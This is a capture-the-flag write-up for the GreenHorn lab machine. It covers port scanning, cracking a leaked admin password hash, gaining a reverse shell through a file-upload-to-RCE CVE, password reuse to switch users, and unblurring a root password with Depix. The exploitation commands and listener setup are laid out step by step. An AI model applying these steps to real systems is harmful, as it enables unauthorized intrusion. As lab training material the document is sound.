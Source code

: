 
## Enumeration
- Let run rustscan with nmap 
```bash
rustscan -a greenhorn.htb
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
I don't always scan ports, but when I do, I prefer RustScan.

[~] The config file is expected to be at "/home/malisio/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.25:22
Open 10.10.11.25:80
Open 10.10.11.25:3000
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2024-09-20 11:10 +01
Initiating Ping Scan at 11:10
Scanning 10.10.11.25 [2 ports]
Completed Ping Scan at 11:10, 0.07s elapsed (1 total hosts)
Initiating Connect Scan at 11:10
Scanning greenhorn.htb (10.10.11.25) [3 ports]
Discovered open port 80/tcp on 10.10.11.25
Discovered open port 22/tcp on 10.10.11.25
Discovered open port 3000/tcp on 10.10.11.25
Completed Connect Scan at 11:10, 0.22s elapsed (3 total ports)
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up, received syn-ack (0.11s latency).
Scanned at 2024-09-20 11:10:49 +01 for 1s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
3000/tcp open  ppp     syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.32 seconds

❯ nmap -sV -sC -p 3000 80 greenhorn.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2024-09-20 11:11 +01
Stats: 0:00:08 elapsed; 1 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.11s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Golang net/http server
|_http-title: GreenHorn
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=f7d9010fe7e7e0c8; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=35r03BvSswaSpsUewBc0I0I5RhE6MTcyNjgyNzA5OTIzOTYxMDcxOQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Fri, 20 Sep 2024 10:11:39 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=1d0573bc87644fe0; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=PFN7_g5auQzrypzterJGC15wWes6MTcyNjgyNzEwMDIyNDc0OTg0MQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Fri, 20 Sep 2024 10:11:40 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.95%I=7%D=9/20%Time=66ED4A5A%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,252E,"HTTP/1\.0\x20200\x20OK\r\nCache-Control:
SF:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nConte
SF:nt-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_gitea=
SF:f7d9010fe7e7e0c8;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Cookie
SF::\x20_csrf=35r03BvSswaSpsUewBc0I0I5RhE6MTcyNjgyNzA5OTIzOTYxMDcxOQ;\x20P
SF:ath=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Option
SF:s:\x20SAMEORIGIN\r\nDate:\x20Fri,\x2020\x20Sep\x202024\x2010:11:39\x20G
SF:MT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"theme-
SF:auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=device
SF:-width,\x20initial-scale=1\">\n\t<title>GreenHorn</title>\n\t<link\x20r
SF:el=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR3Jl
SF:ZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9
SF:ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm
SF:4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJza
SF:XplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX")
SF:%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(HTTPOptions,1A4,"HTTP/1\.0\x20405\x20Method\x20Not\x20Allowe
SF:d\r\nAllow:\x20HEAD\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Control
SF::\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nSet-
SF:Cookie:\x20i_like_gitea=1d0573bc87644fe0;\x20Path=/;\x20HttpOnly;\x20Sa
SF:meSite=Lax\r\nSet-Cookie:\x20_csrf=PFN7_g5auQzrypzterJGC15wWes6MTcyNjgy
SF:NzEwMDIyNDc0OTg0MQ;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSi
SF:te=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate:\x20Fri,\x2020\x20Sep\
SF:x202024\x2010:11:40\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ
SF:est,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque
SF:st");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 2 IP addresses (1 host up) scanned in 39.81 seconds
```

Navigating to the web server running on port 80 we get this 
![[web-server.png]]
- Let take a look at the admin page 
![[admin.png]]
hmmm let do some enumeration on port 3000 
Looking at port 3000 we can see that it is running a self hosted git hub repository taking a look at the repository that is running on port 80 we can see there is a file called pass.php we can see that it contains  a password for the admin page 
`d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163'` and cracking it will give us this password `iloveyou1`.
## Exploitation 

![[repo_hash.png]]
To get a foothold we will use the [CVE](https://vulners.com/packetstorm/PACKETSTORM:173640)  a file upload chained with RCE.
Preparing the payload:

```bash
[malisio@th3g3ntt1m3n exp]$: zip shell.zip shell.php
```
Go to options -> manage modules and upload it, it would be in 
```txt
http://greenhorn.htb/data/modules/shell/shell.php
```
Start a listener and u will get a reverse shell: 
```sh
rlwrap -cAr nc -lvnp 9999
```
## Prev esc 
- The user that runs the server (junior) also uses the same password for his account so we can switch to his user.
```sh
www-data@greenhorn:/$ su junior
Password: iloveyou1
junior@greenhorn:~$ id
uid=1000(junior) gid=1000(junior) groups=1000(junior)
junior@greenhorn:~$ wc -c user.txt
33 user.txt
junior@greenhorn:~$ 
junior@greenhorn:~$ls
'Using OpenVAS.pdf' user.txt
```
- Getting root
Let take a look at the pdf 

![[pdf_overview.png]]
Only if we can unblur the password right? Guess what we can do it using this [tool](clone https://github.com/spipm/Depix)
convert the pdf file to an image
```sh
python3 depix.py -p org_file.jpg -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
```
and with the unblurred img u can ssh into root
```sh
ssh root@greenhorn.htb
root@greenhorn.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Sep 20 03:34:42 PM UTC 2024
root@greenhorn:~# ls
<other_files>  root.txt
root@greenhorn:~# wc -c root.txt 
33 root.txt
```
